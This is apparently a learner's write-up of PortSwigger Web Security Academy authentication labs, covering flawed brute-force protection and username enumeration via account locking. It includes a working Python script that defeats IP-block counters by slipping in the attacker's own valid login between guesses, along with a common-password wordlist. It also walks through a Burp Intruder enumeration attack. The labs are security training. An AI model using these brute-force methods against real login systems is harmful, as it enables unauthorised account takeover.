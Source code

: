```yaml
---
tags: ["brute force", "account locking"]
title: password based login part-2
image: "img/Portswigger/authentication.png"
---
```


## Flawed brute-force protection

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts
- Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

## Lab

In this lab we have to do good login one time and then try our brute force creds one time and we can do this in loop with any script!

So i made one python script and added all the passwords in List and checked them one by one!

==> Exploit :

```py
import requests

def goodReq():
	username = "wiener"
	password = "peter"
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"
	data = {
		'username':username,
		'password':password
	}
	r = requests.post(url=url,data=data)
	# print(r.text)
# goodReq()

def brute_force():
	username = "carlos"
	password = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]
	url = "https://ac831f371f85a102c02985da00360007.web-security-academy.net/login"

	Flag = False
	count = 0
	i = 0
	while (Flag==False):
		if(count % 2 == 0):
			print("Trying bad request")
			r = requests.post(url=url,data={'username':username,'password':password[i]})
			if("Your username is:" in r.text):
				Flag = True
				print("Credentials Found!")
				print("Username: ",username)
				print("Password: ",password[i])
				print(r.text)
				break
			i += 1
			count += 1
		else:
			print("Trying good request")
			count += 1
			goodReq()
brute_force()
```

--> After running this exploit i found the password for `carlos` and solved the lab!

![](Attachments/Pastedimage20220202125348.png)

---

# Account locking

One way in which websites try to prevent brute-forcing is to lock the account if certain suspicious criteria are met, usually a set number of failed login attempts. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection against targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

For example, the following method can be used to work around this kind of protection:

1.  Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list of common usernames.
2.  Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 password guesses.
3.  Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

Account locking also fails to protect against credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on multiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

## Lab: Username enumeration via account lock

--> This website locks the account of a user if the user tries to login after 2-3 attempts so with this functionality or logic we can think that if the user account exists then only the website will lock the user account and that's the logic flow here. we can use this logic for username enumration

So we have provided the username list and password list. I firstly brute forced the username with the given username list and for password i tried the given password list with `cluster bomb` and also i have grepped the string `Invalid username or password` to check that which username is getting blocked

And after some time i found that the user `alabama` don't get the grepped string so that means the account got locked. And now we have one possible username called `alabama`

![](Attachments/Pastedimage20220202140519.png)

--> For password brute force we have to make the difference between requests `3` because the website is blocking us for 3 or more failed login attempts. But after some time i found that if your login is correct then website is displaying nothing.

So i again grepped the `Invalid username or password` and `You have made too many requests` strings and started the attack. And after some time i found that we don't get anything for password `buster` so it might be a correct password!

![](Attachments/Pastedimage20220202144628.png)

--> And after trying that password with the username i solved the lab!
